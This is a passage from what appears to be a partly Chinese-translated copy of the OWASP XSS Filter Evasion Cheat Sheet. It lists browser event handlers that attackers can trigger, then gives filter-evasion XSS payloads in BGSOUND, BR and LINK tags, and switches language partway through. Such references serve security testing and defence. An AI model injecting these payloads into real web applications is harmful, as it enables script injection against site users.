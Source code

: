 85. `onReverse()` (if the element has a repeatCount greater than one, this event fires every time the timeline begins to play backward)
86. `onRowsEnter()` (user or attacker would need to change a row in a data source)
87. `onRowExit()` (user or attacker would need to change a row in a data source)
88. `onRowDelete()` (user or attacker would need to delete a row in a data source)
89. `onRowInserted()` (user or attacker would need to insert a row in a data source)
90. `onScroll()` (user would need to scroll, or attacker could use the `scrollBy()` function)
91. `onSeek()` (the onreverse event fires when the timeline is set to play in any direction other than forward)
92. `onSelect()` (user needs to select some text - attacker could auto initialize with something like: `window.document.execCommand("SelectAll");`)
93. `onSelectionChange()` (user needs to select some text - attacker could auto initialize with something like: `window.document.execCommand("SelectAll");`)
94. `onSelectStart()` (user needs to select some text - attacker could auto initialize with something like: `window.document.execCommand("SelectAll");`)
95. `onStart()` (fires at the beginning of each marquee loop)
96. `onStop()` (user would need to press the stop button or leave the webpage)
97. `onStorage()` (storage area changed)
98. `onSyncRestored()` (user interrupts the element's ability to play its media as defined by the timeline to fire)
99. `onSubmit()` (requires attacker or user submits a form)
100. `onTimeError()` (user or attacker sets a time property, such as dur, to an invalid value)
101. `onTrackChange()` (user or attacker changes track in a playList)
102. `onUndo()`（用户在撤消事务历史记录中倒退）
103. `onUnload()`（当用户点击任何链接或按下后退按钮或攻击者强制点击时）
104. `onURLFlip()`（此事件在由 HTML+TIME（定时交互式多媒体扩展）媒体标签播放的高级流格式 (ASF) 文件处理嵌入在 ASF 文件中的脚本命令时触发）
105. `seekSegmentTime()`（这是一种在元素的片段时间线上定位指定点并从该点开始播放的方法。片段由时间线的一个重复组成，包括使用 AUTOREVERSE 属性进行反向播放。）

### BGSOUND[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#bgsound)

```
<BGSOUND SRC="javascript:alert('XSS');">
```

### & JavaScript 包括[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#javascript-includes)

```
<BR SIZE="&{alert('XSS')}">
```

### 样式表[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#style-sheet)

```
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
```

### 远程样式表[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#remote-style-sheet)
